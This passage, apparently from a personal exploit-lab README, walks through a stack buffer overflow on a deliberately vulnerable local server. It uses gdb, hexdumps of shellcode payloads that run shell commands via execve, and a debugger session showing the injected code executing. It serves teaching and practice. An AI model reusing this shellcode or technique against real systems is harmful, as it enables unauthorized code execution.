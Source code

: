 Note that with `gdb` the address of `buff` might be different so we need to regenerate our payloads with `payload.py`:

```
$ gdb build/bof-server-pie2
...
(gdb) p &buff
$1 = (char (*)[100]) 0x7fffffffdbd0
```

```
$ hexdump -C payload-touch                                            
00000000  48 b8 2f 62 69 6e 2f 73  68 00 99 50 54 5f 52 66  |H./bin/sh..PT_Rf|
00000010  68 2d 63 54 5e 52 e8 0f  00 00 00 74 6f 75 63 68  |h-cT^R.....touch|
00000020  20 2e 74 6d 70 64 61 74  61 00 56 57 54 5e 6a 3b  | .tmpdata.VWT^j;|
00000030  58 0f 05 78 78 78 78 78  78 78 78 78 78 78 78 78  |X..xxxxxxxxxxxxx|
00000040  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
*
00000070  78 78 78 78 78 78 78 78  d0 db ff ff ff 7f 00 00  |xxxxxxxx........|
00000080
$ hexdump -C payload-rm   
00000000  48 b8 2f 62 69 6e 2f 73  68 00 99 50 54 5f 52 66  |H./bin/sh..PT_Rf|
00000010  68 2d 63 54 5e 52 e8 0c  00 00 00 72 6d 20 2e 74  |h-cT^R.....rm .t|
00000020  6d 70 64 61 74 61 00 56  57 54 5e 6a 3b 58 0f 05  |mpdata.VWT^j;X..|
00000030  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
*
00000070  78 78 78 78 78 78 78 78  d0 db ff ff ff 7f 00 00  |xxxxxxxx........|
00000080
```

Run with `gdb`:

```
$ setarch `uname -m` -R /bin/bash
$ gdb build/bof-server-pie2
...
(gdb) r < lab/buffer-overflow/payload-touch 
Starting program: /home/gemesa/git-repos/exploit-lab/build/bof-server-pie2 < lab/buffer-overflow/payload-touch

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.fedoraproject.org/>
Enable debuginfod for this session? (y or [n]) 
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
0x7fffffffdbd0
enter the password:
wrong password
authenticated
your files:
[Detaching after vfork from child process 193326]
arsenal  build	Cargo.lock  Cargo.toml	lab  LICENSE  Makefile	notes  README.md  target
process 193323 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: dnf debuginfo-install glibc-2.37-14.fc38.x86_64
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
process 193323 is executing new program: /usr/bin/touch
Missing separate debuginfos, use: dnf debuginfo-install bash-5.2.21-1.fc38.x86_64
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
[Inferior 1 (process 193323) exited normally]
Missing separate debuginfos, use: dnf debuginfo-install coreutils-9.1-12.fc38.x86_64
(gdb) exit
$ ls -la
```